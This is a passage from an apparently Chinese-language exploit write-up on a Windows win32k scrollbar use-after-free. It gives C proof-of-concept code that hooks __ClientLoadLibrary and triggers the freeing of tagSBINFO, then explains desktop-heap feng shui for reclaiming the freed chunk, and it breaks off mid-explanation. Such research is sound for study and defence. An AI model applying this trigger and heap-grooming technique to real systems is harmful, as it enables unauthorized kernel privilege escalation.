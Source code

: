 ```c

BOOL Trigger(int cmd, HINSTANCE h)
{
	DWORD dwOldProtect = 0;

	// window which instantiates a scrollbar to be freed
	hwnd = CreateWindowExA(0, g_szClassName, 0, SBS_HORZ | WS_HSCROLL | WS_VSCROLL,
		10, 10, 100, 100, (HWND)NULL, (HMENU)NULL, h, (PVOID)NULL);

	if (hwnd == NULL)
		return FALSE;

	ShowWindow(hwnd, SW_SHOW);
	UpdateWindow(hwnd);

	hookflag = 1;
	EnableScrollBar(hwnd, SB_CTL | SB_BOTH, ESB_DISABLE_BOTH);

	return TRUE;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
	PSTR szCmdLine, int iCmdShow)
{
	_ClientLoadLibrary_addr = Get__ClientLoadLibrary();
	_ClientLoadLibrary = (void *)(ULONG_PTR *)_ClientLoadLibrary_addr;
	Hook__ClientLoadLibrary();

	InitWindows(hInstance);

	Trigger(iCmdShow, hInstance);
}
```

下一步我们要做的就更有趣了，用堆风水把释放的块替换成指定的对象，这样可以做更多的事，不过要完成堆风水，
我们需要对 desktop 的堆有一定的了解。

# Heap Feng Shui

有关 desktop 的堆在前面 win32k 的 paper 中有相关介绍，desktop 堆是 win32k.sys 用来存储给定 desktop
相关联的一系列 GUI 对象，包含了窗体对象和其相关结构，比如 property list，window text 和 scrollbar。
每创建一个桌面就会有一个相应的堆为其服务，那么我们就可以分配一个新的桌面得到一个初始的堆，可以更稳定的进行调控。
但资料中又提到一个信息，低权限进程是无法创建新的桌面的。

抛开这个问题，我们先明确堆风水要达成的目的，就是要把释放后的 tagSBINFO 结构的堆块替换成其他的结构堆块，
利用结构体的特性修改一些关键的数据从而获得操作更多数据的能力，要完成替换就需要精准预测堆块的分配，
尽可能完全控制整个堆的布局。比较可行的办法是先把释放的堆块尽可能填满，之后新分配的堆块就会排列在一起，
然后在一系列连续的堆块中释放掉相应的块造成一个缺口，那么后面分配的块大概率会在缺口的位置，实现预测分配。

在桌面堆中分配的有三个重要的数据类型我们需要了解一下，主要就通过使用这些结构体来控制堆上的窗体相关的数据。
每个窗体对象包含一个 `tagPROLIST` 结构体，它的大小足够小，在64位系统下分配的大小为 0x18 字节，
可以用来填充一些比较小的缺口，该结构类型定义如下：
